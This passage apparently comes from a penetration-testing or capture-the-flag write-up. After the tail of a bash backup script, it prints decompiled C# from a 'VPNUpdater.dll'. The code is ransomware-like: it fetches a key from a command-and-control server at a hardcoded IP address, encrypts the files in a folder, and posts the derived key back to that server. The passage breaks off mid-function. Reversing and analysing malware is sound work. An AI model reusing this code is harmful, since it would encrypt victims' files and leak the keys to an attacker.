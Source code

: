 ```bash
        log "No new backup needed, exiting"
        exit 0
    fi
fi
```

go back to [4: System pentest](#4--system-pentest)
### reversed VPNUpdater.dll

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Net.Http;
using System.Net.Http.Headers;
using System.Runtime.CompilerServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading.Tasks;
using Newtonsoft.Json;
using Newtonsoft.Json.Linq;

namespace X
{
	[NullableContext(1)]
	[Nullable(0)]
	internal class Y
	{
		public static void Main(string[] p)
		{
			Y.MainAsync(p).Wait();
		}

		private static async Task MainAsync(string[] p)
		{
			string folderName = p[0];
			string t = DateTime.UtcNow.ToString("yyyy-MM-ddTHH:mm:ssZ");
			string c2url = "http://163.172.66.233:3000";
			string username = "admin";
			string password = "http://163.172.66.233:3000";
			string staticKey = "AA$F2-D8C1E7B9F3A35@C8@!BB2E1F0A7C3D";
			string dynamicKey = await Y.getDynamicKey(c2url, username, password);
			byte[] compKey = Y.ComputeCompositeKey(dynamicKey, staticKey, folderName, t);
			byte[] iv = Encoding.ASCII.GetBytes("D1@E2#F3%A4B5&C6");
			if (Directory.Exists(folderName))
			{
				Y.encryptFolder(folderName, compKey, iv);
			}
			string compositeData = Convert.ToBase64String(compKey);
			await Y.PostToC2(c2url, compositeData, username, password);
		}

		private static void encryptFolder(string folder, byte[] compKey, byte[] iv)
		{
			foreach (string filename in Directory.GetFiles(folder))
			{
				try
				{
					Y.EncryptFile(filename, compKey, iv);
				}
				catch (Exception ex)
				{
					Console.WriteLine("X: " + ex.Message);
```